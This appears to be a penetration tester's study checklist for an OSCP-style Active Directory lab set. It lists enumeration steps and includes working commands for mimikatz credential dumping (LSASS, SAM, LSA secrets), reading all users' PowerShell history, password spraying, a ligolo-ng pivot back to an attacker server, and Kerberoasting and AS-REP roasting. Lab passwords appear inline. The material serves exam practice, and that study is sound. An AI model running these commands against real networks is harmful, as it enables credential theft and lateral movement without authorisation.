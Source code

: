 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# AD Set

{% hint style="success" %}
Based on:&#x20;

* PG Play: Access, Hokkaido, Hutch, Nagoya, Resourced, Vault
* PEN-200: OSCP A, OSCP B, OSCP C
{% endhint %}

## No Creds

{% hint style="danger" %}
Not OSCP related!
{% endhint %}

<details>

<summary>Domain Enumeration</summary>

* [ ] LDAP Null Bind ([ldapsearch](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/ldapsearch))

- [ ] User Enumeration ([kerbrute](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/kerbrute))
- [ ] SMB Enumeration
  * [ ] [enum4linux-ng](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#enumeration)
  * [ ] Null, Guest, Anonymous sessions
  * [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../../web/dirbusting.md) HTTP(S) ports with
  * [ ] [Directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) plus server-specific extensions
  * [ ] [File list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt) plus server-specific extensions
* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)
* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

</details>

## MS01

### Creds

<details>

<summary>User Context</summary>

* [ ] [Privileges](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/privileges)
  * [ ] [Token Elevation](../../)

- [ ] [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/groups)

* [ ] [PS History](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#files)

{% code overflow="wrap" %}
```powershell
# History files of all host's users (assuming default path)
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [WinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#windows)
* [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

</details>

<details>

<summary>Remote Access ✅</summary>

Check for WinRM, RDP, and SSH access:

{% code overflow="wrap" %}
```bash
for service in winrm rdp ssh;do uv run nxc "$service" domain_hosts -u celia.almeda -p 7k8XHk3dMtmpnC7;echo;done | grep +
```
{% endcode %}

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List shares

```bash
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares
```

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary>Post-Exploitation (Cached Creds) ✅</summary>

* [ ] Dump cached credentials

{% code overflow="wrap" %}
```powershell
# Upload binary from the WinRM session
*Evil-WinRM* PS C:\Users\Administrator> upload mimikatz.exe


# Dump active sessions' creds
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump the SAM registry hive
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# Dump the LSA secrets
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```
{% endcode %}

* [ ] Password Spray

{% code overflow="wrap" %}
```bash
$ for file in domain_*;do cat "$file";echo;done

$ uv run nxc smb ms01 -u domain_users -p domain_passwords --continue-on-success | grep +
​
$ uv run nxc smb ms01 -u domain_users -H domain_hashes --continue-on-success | grep +
```
{% endcode %}

</details>

<details>

<summary>Pivot (Route to the domain) ✅</summary>

```bash
# Launch the ligolo server
$ sudo ligolo-proxy -selfcert -laddr 192.168.45.216:443
```

{% code overflow="wrap" %}
```powershell
# Upload ligolo-agent via WinRM
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> upload agent.exe

# Connect to the server
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> .\agent.exe -connect 192.168.45.216:443 -ignore-cert
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Configure the routing
ligolo-ng » INFO[0052] Agent joined.   id=0050569e00f6 name="OSCP\\eric.wallows@MS01" remote="192.168.103.141:49318"
ligolo-ng » session
? Specify a session : 1 - OSCP\eric.wallows@MS01 - 192.168.103.141:49318 - 0050569e00f6
[Agent : OSCP\eric.wallows@MS01] » autoroute
? Select routes to add: 10.10.63.141/24
? Create a new interface or use an existing one? Create a new interface
INFO[0105] Generating a random interface name...
INFO[0105] Using interface name savinglester
INFO[0105] Creating routes for savinglester...
? Start the tunnel? Yes
INFO[0106] Starting tunnel to OSCP\eric.wallows@MS01 (0050569e00f6)
```
{% endcode %}

</details>

<details>

<summary>AD Attacks (Domain Data) ✅</summary>

* [x] Domain Data (userlist, bloodhound)

{% code overflow="wrap" %}
```bash
# Create a domain user's list
$ uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# Collect domain data
$ uv run nxc ldap DC01.oscp.exam -u celia.almeda -p 7k8XHk3dMtmpnC7 --bloodhound -c All --dns-server 10.10.63.140
```
{% endcode %}

* [x] Password Spray&#x20;
  * [ ] `<user>:<user>`

{% code overflow="wrap" %}
```bash
$ uv run nxc smb domain_hosts -u domain_users -H domain_hashes --continue-on-success | grep +
​
$ uv run nxc smb domain_hosts -u domain_users -p domain_passwords --continue-on-success | grep +
```
{% endcode %}

* [x] Kerberoast

{% code overflow="wrap" %}
```bash
$ impacket-GetUserSPNs -request -dc-ip DC01 oscp.exam/celia.almeda:7k8XHk3dMtmpnC7
```
{% endcode %}

* [x] [AS-REPRoast](../../tl-dr/active-directory/attacks/as-reproasting.md)

{% code overflow="wrap" %}
```bash
$ impacket-GetNPUsers oscp.exam/ -dc-ip DC01 -no-pass -usersfile domain_users
```
{% endcode %}

</details>

## MS02

<details>

<summary>User Context</summary>

* [ ] [Privileges](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/privileges)
  * [ ] [Token Elevation](../../)
* [ ] [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/groups)
* [ ] [PS History](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#files)

{% code overflow="wrap" %}
```powershell
# History files of all host's users (assuming default path)
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [WinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#windows)

- [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

</details>

<details>

<summary>MSSQL</summary>

* [ ] Enumerate tables
* [ ] Links
* [ ] Users
* [ ] xp\_cmdshell

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Domain Data (SharpHound)
* [ ] If SPNs (e.g. MSSQL) try [Silver ticket](https://x7331.gitbook.io/boxes/tl-dr/active-directory/persistence/silver-ticket)

</details>
